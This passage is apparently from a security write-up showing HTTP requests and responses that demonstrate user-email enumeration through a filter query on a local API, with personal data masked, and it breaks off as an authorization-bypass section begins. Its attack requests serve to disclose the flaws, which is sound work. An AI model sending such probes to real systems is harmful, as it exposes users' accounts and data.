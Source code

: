 Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": {
        "attributes": {
            "tenants": []
        }
    }
}
```
```In the case of matching a valid email account, the application would return the user's information instead of a classic *“true”*, *"1"* or whatever in the response to the server:
### Request
```
GET /api/registrations?filter[userAccounts]=email=='manuel**********@domain.local' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:19:46 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 293
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": {
        "id": "********************",
        "type": "UserAccountDTO",
        "attributes": {
            "id": "********************",
            "type": "UserAccountDTO",
            "email": "manuel**********@domain.local",
            "sub": "*********************",
            "status": "ACTIVE",
            "tenants": [{
                "id": "1"
            }]
        }
    }
}
```
```## Authorization evasion
In this scenario, we start from a user with a basic role and in which we do not have privileged permissions (e.g. administrator) to access the list of all users registered in the database:
### Request
```
GET /api/users HTTP/1.1